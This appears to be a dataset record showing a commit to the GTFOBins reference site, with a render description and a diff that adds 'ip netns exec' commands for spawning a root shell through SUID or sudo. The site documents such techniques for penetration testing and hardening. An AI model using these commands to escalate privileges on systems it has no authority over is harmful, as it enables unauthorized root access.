

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/ip.md, in a window 1280 px wide. Shown: the whole page at 88% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Update ip with sudo and SUID (#56)
* Update ip with sudo and SUID

```diff
--- a/_gtfobins/ip.md
+++ b/_gtfobins/ip.md
@@ -10,8 +10,18 @@ functions:
     - code: |
         LFILE=file_to_read
         ./ip -force -batch "$LFILE"
+    - description: This only works for Linux with CONFIG_NET_NS=y.
+      code: |
+        ./ip netns add foo
+        ./ip netns exec foo /bin/sh -p
+        ./ip netns delete foo
   sudo:
     - code: |
         LFILE=file_to_read
         sudo ip -force -batch "$LFILE"
+    - description: This only works for Linux with CONFIG_NET_NS=y.
+      code: |
+        sudo ip netns add foo
+        sudo ip netns exec foo /bin/sh
+        sudo ip netns delete foo
 ---
```
